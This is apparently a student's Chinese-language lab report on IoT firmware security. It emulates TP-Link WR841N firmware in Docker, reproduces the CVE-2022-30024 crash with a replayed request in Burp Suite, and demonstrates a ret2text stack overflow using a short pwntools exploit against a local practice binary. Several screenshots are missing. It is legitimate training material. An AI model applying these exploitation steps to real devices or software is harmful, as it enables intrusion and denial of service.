

# 第四章：物联⽹固件安全基础
---

## 实验环境

- 操作系统: Kali Linux、Ubuntu
- 虚拟机软件: VirtualBox7.1.6

---

## 实验步骤

### 实验⼀：复现 CVE-2022-30024

#### 步骤⼀：获取存在漏洞的固件

直接下载相关固件
`wr841nv10_wr841ndv10_en_3_16_9_up_boot(150310).bin`
#### 步骤⼆：固件仿真

###### 手动仿真：
 1. 将固件放置于 `firmware` ⽬录下：
 2. 重新构建基础镜像
```sh
sudo docker build --no-cache --tag dir841 --build-arg 
FIRMWARE_PATH=./firmware --cpu-period 100000 --cpu-quota 100000 .
```
3. 启动仿真环境
```sh
sudo docker run -it -d --privileged -P dir841
```
通过查看容器的日志判断其仿真的情况：



4. 等待 3-5 分钟
5. 查看转发出来的端⼝
```sh
sudo docker ps
```


6. 使⽤浏览器访问仿真出来的Web管理界⾯


7. 输⼊⽤户名密码，均为admin，并修改跳转后的链接中的IP地址为kali虚拟机的IP地址和映射出来的端⼝


#### 步骤三：设置浏览器代理
这里使用burpsuit或yakit的免配置代理，直接在其内部浏览器访问


#### 步骤四：复现漏洞
将之前抓包的请求放入 Burpsuite 的 Repeater 中，并进行下面的修改然后发送包：
第一次发送包的结果以为200的响应，还是正常的


但当第二次发送这个请求时，不再有响应


回到web端去访问，发现已经被关闭了，确定发生了崩溃


### （扩展）PWN ret2text 演示

#### 首先编写一个c代码：


#### 编译
对这c代码进行编译：
需要注意的是这里在编译时取消了几个保护机制，以便后面进行栈溢出攻击:


#### 查找函数地址

通过gdb工具定位success函数的地址：


同时通过断点和调试找到风险函数gets的偏移并设置断点调试：


在gets处设置断点并构建字符串进行调试，找到缓冲区的大小以及溢出所需的偏移


简单找到函数地址和偏移的这一步也可以直接在ida中进行：


反编译后查看对应的地址和变量大小即可

#### 最后使用pwntools编写脚本进行攻击，获取flag：
```python
from pwn import *
binary_path = 'easy'
elf = ELF(binary_path)

p=process(binary_path)

addr = elf.symbols['success']

offset =24

payload = b'A' * offset +p32(addr)

p.sendline(payload)
p.interactive()
```


---

## 遇到的问题及解决方案

- pwntools语法不熟悉，通过搜索查询

---


